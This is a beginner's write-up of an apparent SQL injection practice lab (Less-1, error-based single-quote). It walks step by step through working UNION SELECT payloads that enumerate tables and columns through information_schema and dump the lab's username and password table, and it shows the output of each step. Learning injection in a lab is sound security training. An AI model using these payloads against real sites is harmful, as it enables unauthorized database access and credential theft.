 Hello guys.
This is the first time im doing something related to SQL injection. I have basic knowledge about sql syntax and functions...

This is the write up for Less-1 - " GET-Error Based- Single Quotes - String"


started with a [URL].../Less-1/ page, which instructed me to input the ID as parameter with numeric value.

So I start with adding ```?id=1``` after the URL and got 

```Your Login name:Dumb Your Password:Dumb```

in the page.

and using different numbers after 2, I got different Login names and passwords.

As the name of the Lesson suggests I start with a single quote Error
so I type a single quote ... ```[URL]/?id=1'```
and an error is returned ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near ''1'' LIMIT 0,1' at line 1```

So it seemd like ```?id=x```, is going into an sql command like
```SELECT _____ FROM _____ WHERE id = 'x';```

This is because there are odd number of single quotes.
However, I continue by trying to find out the number of columns in the table from which the usernames and passwords are printed from, by adding 
```UNION SELECT 1 -- -```
It returned an error: 
``` The used SELECT statements have a different number of columns ```
so i continued increasing till an error wasnt returned at:
```[URL]/?id=1' UNION SELECT 1,2,3 -- -```

However from here on I continued by using a wrong number after id so that the output of my following code can come instead, i proceeded with ```?id=-1```

I proceded by using, ```UNION SELECT 1, group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -```
and  ```Your Login name:emails,referers,uagents,users
        Your Password:3``` was returned so there were 4 tables called emails,referers,uagents and users. It was obvious users had the data of the login information.

so I change the command to 
``` UNION SELECT 1, group_concat(column_name),3 from information_schema.columns WHERE table_name = 'users'-- -```
and ```Your Login name:id,username,password``` was updated
So, the table users had 3 columnns called 'id,username,password'

Therefore to get a dump of this table I finally used,
```UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users-- -```

And the username and password dump was finally printed!!!!
```Your Login name:Dumb|Dumb,Angelina|I-kill-you,Dummy|p@ssword,secure|crappy,stupid|stupidity,superman|genious,batman|mob!le,admin|admin,admin1|admin1,admin2|admin2,admin3|admin3,dhakkan|dumbo,admin4|admin4
Your Password:3
```


references:
-https://www.sqlinjection.net/numeric-parameters/
-https://portswigger.net/web-security/sql-injection/union-attacks
-https://noobsec.net/sqli-cheatsheet/#Database-Contents

